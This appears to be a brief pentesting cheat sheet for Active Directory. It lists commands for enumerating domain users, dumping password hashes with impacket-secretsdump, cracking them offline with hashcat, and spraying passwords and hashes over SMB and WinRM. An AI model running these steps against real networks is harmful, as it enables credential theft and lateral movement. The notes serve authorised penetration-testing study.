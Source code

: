 # AD Pentesting Methodologies 

## PASSWORD ATTACKS, POST-EXPLOITATION AND PIVOTING EXAMPLE:

- Check C:\Users\ directory to add local users to a users.txt file (Post exploitation. Used for pivoting/lateral movement)

- net user /domain (Enumerate all domain users)

- impacket-secretsdump administrator@IP_ADDRESS (Dump hashes locally to our machine if we have admin access).

### Then

 - hashcat -m 1000 -a 0 hashes.txt /usr/share/wordlist/rockyou.txt (Attempt to crack dumped hashes offline)

### Let’s say we have smb and winrm open. We will run it like this:

- Spray with continue on success users.txt and passwords.txt.

- Same as #1 but with local-auth

- Spray uncracked ntlm hashes to all users in users.txt (If we dumped them with secretsdump)

- Same as #3 but with local-auth
